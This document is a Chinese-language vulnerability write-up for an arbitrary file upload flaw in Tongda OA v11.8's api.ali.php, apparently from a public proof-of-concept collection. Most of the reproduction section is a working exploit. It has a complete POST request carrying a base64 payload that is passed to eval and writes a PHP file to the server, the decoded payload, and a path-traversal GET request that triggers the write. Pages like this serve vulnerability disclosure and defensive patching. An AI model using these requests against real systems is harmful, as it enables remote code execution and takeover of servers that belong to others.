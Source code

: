 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a.png)

像 api.ali.php 发送请求包

```python
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

<a-checkbox checked>参数a base解码</a-checkbox></br>

<a-checkbox checked>ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','<?php phpinfo();?>');</a-checkbox></br>

![img](../../../.vuepress/public/img/1630513004438-e5a73ef6-8d65-40a1-9a3c-3be30cd7d164.png)

再发送GET请求写入文件

```python
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

![img](../../../.vuepress/public/img/1630513044174-8139c404-4f11-404e-be04-42d86b407bdd.png)

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![img](../../../.vuepress/public/img/1630513283771-36cc86c7-a150-4834-be64-243b20938165.png)